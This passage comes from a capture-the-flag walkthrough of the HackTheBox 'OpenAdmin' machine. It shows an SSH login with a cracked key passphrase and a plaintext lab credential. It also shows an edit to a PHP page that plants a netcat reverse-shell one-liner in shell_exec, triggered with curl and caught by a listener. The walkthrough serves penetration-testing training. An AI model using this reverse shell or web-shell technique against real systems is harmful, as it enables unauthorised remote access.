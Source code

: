 You should get this result: `bloodninjas`

You should be now able to login successfully as `joanna` with the key and the passphrase:
```
kali@kali:~/htb/boxes/openadmin/ssh$ ssh -i joanna.key joanna@openadmin.htb
Enter passphrase for key 'joanna.key':                                                                                                           
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)                                                                               
                                                                                                                                                 
(..snip..)

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Thu Jan  2 21:12:40 2020 from 10.10.14.3
joanna@openadmin:~$ 
```
Grab user hash here.

#### 2. Edit `main.php` to give us `joanna` shell.

Remember we can edit `main.php` as `jimmy`:
```
jimmy@openadmin:/var/www/internal$ ls -l
total 12
-rwxrwxr-x 1 jimmy internal 3229 Nov 22  2019 index.php
-rwxrwxr-x 1 jimmy internal  185 Nov 23  2019 logout.php
-rwxrwxr-x 1 jimmy internal  339 Nov 23  2019 main.php
```

Let's swap out the `cat /home/joanna/.ssh/id_rsa` command in the `shell_exec` function with a reverse shell to our machine: `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.64 5555 >/tmp/f`
```
jimmy@openadmin:/var/www/internal$ cat main.php
<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /index.php"); }; 
# Open Admin Trusted
# OpenAdmin
$output = shell_exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.64 5555 >/tmp/f');
echo "<pre>$output</pre>";
?>
<html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```

Open a listener on your machine at port 5555, and curl as `jimmy` to `index.php`: `curl -u jimmy:n1nj4W4rri0R! 127.0.0.1:52846/main.php`

You should get a shell back as `joanna`:
```
kali@kali:~$ sudo nc -lvnp 5555
[sudo] password for kali: 
listening on [any] 5555 ...
connect to [10.10.14.64] from (UNKNOWN) [10.10.10.171] 35260
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1001(joanna) gid=1001(joanna) groups=1001(joanna),1002(internal)
```
Grab user hash here.
